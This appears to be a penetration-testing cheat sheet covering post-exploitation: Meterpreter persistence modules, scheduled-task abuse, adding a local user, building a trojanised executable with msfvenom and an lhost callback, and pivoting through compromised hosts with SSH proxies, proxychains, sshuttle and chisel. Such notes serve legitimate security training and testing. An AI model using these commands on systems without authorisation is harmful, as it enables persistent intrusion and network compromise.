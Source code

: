 
## Persistence
*Probably already with a meterpreter shell*

**Scripts**
```
run persistance -h
exploit/windows/local/persistance
exploit/windows/local/registry_persistance
```
**Scheduled Task**
```
run scheduleme
run scheduletaskabuse
```
**Add User**
```
net user <user> <pass> /add
```
**MSFVenom**
```
msfvenom -a <arch> --platform <os> -x <name>.<ext> -k -p windows/messagebox lhost=<ip> -b "\x00" -f exe -o <final_name>.<ext>
```
## Pivoting
*Utilizing multiple hosts to cross network boundaries you would not usually have access to. This is more of a targeted objective.*


SSH proxy through a compromised machine
```
ssh  -f -N -D <Proxy Port> -i pivot <root user>@<proxy ip> 
```
Then run "proxychains" before commands you want to proxy like
```
proxychains nmap -sV <target ip>
```
Other tools that can be used are [sshuttle](https://github.com/sshuttle/sshuttle?tab=readme-ov-file) and [chisel](https://github.com/jpillora/chisel)
```
sshuttle -r <root>@<proxy ip> <new network>/<CIDR> --ssh-cmd "ssh -i proxy"
```
SSH Tunnel
```
ssh -L 1234:localhost:3306 Ubuntu@<IPaddressofTarget>
```

Use Bloodhound and tools like [draw.io](https://draw.io/)

Port Forwarding
Protocols
- SOCKS
- SSH
- 
## Lateral Movement
*Used to further our access to additional hosts, applications, and services within a network environment*
Check routing 
```
netstat -r
```
```
ip route
```
*Genmask (generality mask): The netmask for the destination net*
